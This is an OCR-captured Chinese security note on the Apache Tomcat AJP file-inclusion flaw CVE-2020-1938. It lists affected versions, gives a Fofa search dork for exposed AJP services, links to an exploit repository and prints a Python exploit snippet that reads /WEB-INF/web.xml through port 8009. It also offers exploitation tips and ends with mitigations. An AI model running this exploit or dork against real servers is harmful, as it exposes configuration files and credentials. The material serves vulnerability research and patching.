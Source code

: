 Apache Tomcat 9 < 9.0.31

**3\. Fofa Dork**

protocol="ajp"

**4.** **漏洞分析**

Apache Tomcat AJP 协议文件包含漏洞分析–斗象能力中心

https://blog.riskivy.com/apache-tomcat-ajp%e5%8d%8f%e8%ae%ae%e6%96%87%e4%bb%b6%e5%8c%85%e5%90%ab%e6%bc%8f%e6%b4%9e%e5%88%86%e6%9e%90/

**5****、漏洞利用**

0nise/CVE-2020-1938: CVE-2020-1938  
https://github.com/0nise/CVE-2020-1938

**6.** **利用技巧**

1\. 当时还没公开 poc 的时候就分析出来 exp 挺有意思的, 效果确实还可以, 当天 fofa 都被累挂了

主要代码也就这 t = Tomcat("127.0.0.1", 8009)

\_, data = t.perform\_request('/',

attributes=\[{'name': 'req\_attribute',

'value': \['javax.servlet.include.request\_uri', '/'\]

},

{'name': 'req\_attribute',

'value': \['javax.servlet.include.path\_info',

 "/WEB-INF/web.xml"\]

},

{'name': 'req\_attribute',

'value': \['javax.servlet.include.servlet\_path',

 '/'\]

},

\])

print('----------------------------')

print("".join(\[bytes.decode(d.data) for d in data\]))

2\. 通过修改这里的路径可以进行 Webapp 切换, 默认是 ROOT/, 需要切换应用就改成 / admin/

3\. 通常检测的时候, 尽量保持 t.perform\_request('/', 有的 poc 喜欢用 / addsd 这种的不存在的路径, 有些情况会读不到文件

**8.** **防护方法**

1\. 升级到最新版

2\. 屏蔽 8009 端口对外开放  

7  

